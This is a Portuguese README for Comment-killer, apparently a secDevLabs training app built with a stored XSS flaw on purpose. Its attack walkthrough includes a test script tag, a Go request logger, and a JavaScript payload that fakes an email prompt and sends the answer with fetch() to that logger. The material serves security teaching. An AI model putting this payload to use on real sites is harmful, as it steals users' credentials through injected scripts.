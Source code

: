 # Comment-killer

[Access content in English](README.md)

<p align="center">
    <img src="images/img1.png"/>
</p>

O Comment-killer é um aplicativo ReactJS simples, que possui uma vulnerabilidade de injeção (XSS) e seu principal objetivo é descrever como um usuário mal-intencionado poderia explorá-lo.

## Index

- [Definição](#O-que-é-Cross-Site-Scripting?)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)


## O que é Cross Site Scripting??

As falhas de XSS ocorrem sempre que um aplicativo inclui dados não confiáveis em uma nova página da Web sem validação, escape adequados, ou atualiza uma página da Web existente com dados fornecidos pelo usuário usando uma API do navegador que pode criar HTML ou JavaScript. 

O XSS permite que os invasores executem scripts no navegador da vítima que podem sequestrar sessões do usuário, desfigurar sites ou redirecionar o usuário para sites maliciosos.

O objetivo principal deste aplicativo é discutir como as vulnerabilidades de **Cross-Site Scripting** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas. Saiba mais <a href="https://owasp.org/www-community/attacks/xss/">aqui</a>.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```bash
cd secDevLabs/owasp-top10-2021-apps/a3/comment-killer
```

```bash
make install
```

Depois é só visitar [http://localhost:10007][app] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Leia a história legal por trás dos Memes.
- Adicione um novo comentário.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.

### 👀

### Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.

Após inspecionar a aplicação, é possível identificar que a entrada de comentário está permitindo scripts e pode ser executada em um navegador web. As imagens a seguir mostram esse comportamento quando o texto a seguir é usado como entrada nesses campos: 

```
<script>alert(1)</script>
```

Adicionando um novo comentário a uma postagem:

<p align="center">
    <img src="images/img2.png"/>
</p>

A validação de entrada ausente permite que um usuário mal-intencionado insira alguns scripts que persistirão no servidor e serão executados no navegador das vítimas toda vez que acessarem as rotas que contêm esses scripts. 

#### 🔥

Um invasor pode abusar dessa falha gerando um código JS malicioso e enviando-o para outros usuários. Para demonstrar isso, o exemplo a seguir criará um formulário de email para tentar roubar as credenciais do usuário.

Inicialmente, uma API é necessária para registrar todas as solicitações recebidas e pode ser construída em Golang da seguinte forma:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

Para iniciar a API, o seguinte comando pode ser usado (você deve verificar este [guia](https://golang.org/doc/install) se precisar de ajuda com o Golang):

```sh
go run main.go
```

Com a API em funcionamento, basta o seguinte código para mostrar uma mensagem pop-up solicitando o e-mail do usuário para continuar lendo o blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

O código JavaScript acima é responsável por enviar uma solicitação `GET` para a API do invasor para que ela possa ser registrada. Neste cenário, enviaremos solicitações para `localhost`.

Tudo o que precisamos agora é colar o código JavaScript no campo de comentários, conforme mostra a imagem a seguir:

<p align="center">
    <img src="images/img3.png"/>
</p>

Quando outro usuário acessar o aplicativo, o seguinte pop-up será mostrado, como podemos ver na imagem abaixo:

<p align="center">
    <img src="images/img4.png"/>
</p>

Enquanto isso, com a API em funcionamento, podemos receber o e-mail do usuário, conforme mostra a imagem a seguir:

<p align="center">
    <img src="images/img5.png"/>
</p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Executar scripts por meio de campos de entrada

<a name="Sol"></a>

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3AComment-Killer)!

<a name="Cont"></a>

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção Contribuição no [SecDevLabs](../../../docs/CONTRIBUTING.md) para orientações sobre como proceder !🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
[secdevlabs]: https://github.com/globocom/secDevLabs
